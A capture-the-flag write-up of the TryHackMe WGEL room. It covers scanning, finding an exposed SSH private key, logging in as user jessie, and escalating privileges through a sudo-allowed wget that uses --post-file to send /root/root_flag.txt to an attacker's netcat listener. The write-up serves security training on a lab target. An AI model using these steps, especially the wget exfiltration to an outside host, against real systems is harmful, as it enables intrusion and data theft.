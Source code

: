 ```yaml
---
layout: post
title: "☁️ TryHackMe - WGEL CTF"
date: 2025-07-24 10:00:00 +0200
categories: [Writeups]
tags: [ctf, tryhackme, pentest, easy]
pin: false
toc: true
comments: true
---
```


<div style="text-align: center;">
  <img src="https://cdn.hashnode.com/res/hashnode/image/upload/v1667861213814/MWfKWU2kh.png" alt="WGEL CTF" width="300">
</div>


## Introduction

| Description                       | Category                       | Level | Link                               |
| --------------------------------- | ------------------------------ | ----- | ---------------------------------- |
| Can you exfiltrate the root flag? | Enumeration, web, ssh, privesc | Easy  | https://tryhackme.com/room/wgelctf |


> Have fun with this easy box.
{: .prompt-info }

<br>

## 👨‍💼 User\_flag

First reflex when I start a CTF, I always start network scan on the target with \*\*nmap \*\*. This allows me to see all the active services on the target, this will allow me to infiltrate it.

```bash
nmap -p- -A 10.10.57.163
```

| OPTIONS | Description                                |
| ------- | ------------------------------------------ |
| `-p-`   | Scan ports from 1 through 65535 (all)      |
| `-A`    | Detection of OS and software versions used |

<br>

![screen 1](https://cdn.hashnode.com/res/hashnode/image/upload/v1667829270280/S72YGl_jJ.png)

I see that an Apache server is running on port 80, from my browser we can see the default page.

![screen 2](https://cdn.hashnode.com/res/hashnode/image/upload/v1667835292581/aJa5T-a8t.png)

After checking the source code, we can identify a potential user --&gt; **Jessie** Let's put it aside, it will interest us for the continuation

> **Note:** It is essential to take notes on all information, loot found during the CTF.
{: .prompt-tip }


![screen 3](https://cdn.hashnode.com/res/hashnode/image/upload/v1667835611781/YgLwravJ3.png )

I will now run an enumeration on the web page to list all hidden directories/files I use \*\*FerroxBuster \*\*which is nicer but a \*\*dirb \*\*will do very well

```bash
└─$ feroxbuster -u http://10.10.57.163 -w /usr/share/wordlists/dirb/common.txt
```

| OPTIONS | Description          |
| ------- | -------------------- |
| `-u`    | The target URL       |
| `-w`    | Path to the wordlist |

![screen 4](https://cdn.hashnode.com/res/hashnode/image/upload/v1667836117801/jHHRzm1OT.png )

We found a hidden page that matches `http://10.10.57.163/sitemap/.ssh/`

Let's see what's there, HOOO surprise a ssh key

![screen 5](https://cdn.hashnode.com/res/hashnode/image/upload/v1667838342755/XF4Xxtxji.png)

Download the ssh key and change the rights on it with chmod

```bash
┌──(vinsk0h㉿kali-22)-[~/THM/Wgel]
└─$ wget http://10.10.57.163/sitemap/.ssh/id_rsa
--2022-11-07 17:10:46--  http://10.10.57.163/sitemap/.ssh/id_rsa
Connexion à 10.10.57.163:80… connecté.
requête HTTP transmise, en attente de la réponse… 200 OK
Taille : 1675 (1,6K)
Sauvegarde en : « id_rsa.1 »

id_rsa.1       100%[=======================>]   1,64K  --.-KB/s    ds 0s      

2022-11-07 17:10:46 (198 MB/s) — « id_rsa.1 » sauvegardé [1675/1675]

┌──(vinsk0h㉿kali-22)-[~/THM/Wgel]
└─$ chmod 600 id_rsa
```

> After downloading a private SSH key (`id_rsa`), you **must** restrict its permissions<br>
> The `chmod 600 id_rsa` command gives **read and write permissions only to the owner** `6` :<br>
> read `4` + write `2`, and **no permissions** to group or others `0`
{: .prompt-warning }


Ok now, let's try to connect with ssh

```bash
ssh -i id_rsa jessie@10.10.57.163
```

| OPTIONS  | Description                                                                                |
| -------- | ------------------------------------------------------------------------------------------ |
| `-i`     | Selects a file from which the identity (private key) for RSA or DSA authentication is read |
| `jessie` | Remember this is the user found on the source code of the default web page                 |


![screen 6](https://cdn.hashnode.com/res/hashnode/image/upload/v1667837733101/IWr-vmnH9.png)

Let's find the flag from Jessie's account

![screen 7](https://cdn.hashnode.com/res/hashnode/image/upload/v1667838734846/4yNYdftHHt.png)

First objective achieved, we now have the user flag, let's go to the root flag

<br>

## 💀 Root\_flag

Once connected as a user, my next goal is to increase my privileges, let's check the sudo permissions

```bash
jessie@CorpOne:~$ sudo -l
```
| OPTIONS | Description                                                                                                                                                                         |
| ------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `-l`    | If no command is specified, the -l (list) option will list the allowed (and forbidden) commands for the invoking user (or the user specified by the -U option) on the current host. |

![screen 8](https://cdn.hashnode.com/res/hashnode/image/upload/v1667839805405/e-jImgSH6.png)

We can see that wget is executable as root without password.

Let's go to [GTFOBins WGEL](https://gtfobins.github.io/gtfobins/wget/)



Let's launch our listener from the attacking machine in order to get the content of the file we are interested in (root\_flag.txt) and execute the wget command from the target

```bash
┌──(vinsk0h㉿kali-22)-[~/THM/Wgel]
└─$ nc -lvnp 9001
_________________________________________________________

jessie@CorpOne:~$ sudo -u root /usr/bin/wget --post-file=/root/root_flag.txt 10.9.13.192:9001
```

![screen 9](https://cdn.hashnode.com/res/hashnode/image/upload/v1667840461095/op7kMZ4Lt.png)

![screen 10](https://cdn.hashnode.com/res/hashnode/image/upload/v1667840594374/rxFUnq4oS.png)

🏁 We have now obtained our last root flag. I hope you enjoyed this first CTF write-up, feel free to share it.


> 🛠 All documentation for tools mentioned or used :<br>
> nmap <https://nmap.org/book/man.html><br>
> Ferroxbuster <https://epi052.github.io/feroxbuster-docs/docs/><br>
> dirb <https://www.kali.org/tools/dirb/><br>
> ssh <https://www.kali.org/tools/openssh/><br>
> sudo <https://www.kali.org/tools/sudo/>
{: .prompt-info }